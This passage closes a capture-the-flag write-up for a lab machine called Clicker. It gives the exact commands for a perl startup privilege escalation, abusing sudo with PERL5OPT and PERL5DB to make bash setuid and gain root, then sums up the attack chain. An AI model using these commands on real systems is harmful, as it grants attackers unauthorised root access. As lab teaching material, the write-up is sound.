

It is a perl binary that may be vulnerable to [perl_startup Local Privilege Escalation](https://www.exploit-db.com/exploits/39702). We have to run:

```sh
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
```
```sh
bash -p
```

And rooted!



## Conclusion

The clicker machine is a good learning experience, demonstrating techniques like SQL and CRLF Injections, parameter pampering and perl privilege escalation.

Initial access was gained via chaining SQL injections, parameter tampering and CRLF injection. This made possible to gain a foothold on the machine.

The pivotal pivoting was accomplished via the exploitation of a vulnerable perl binary. 

This box exemplifies the importance of thinking broadly across multiple domains like web apps, databases, scripts, authentication, and system administration, to make sure that all layers in the system are properly secured.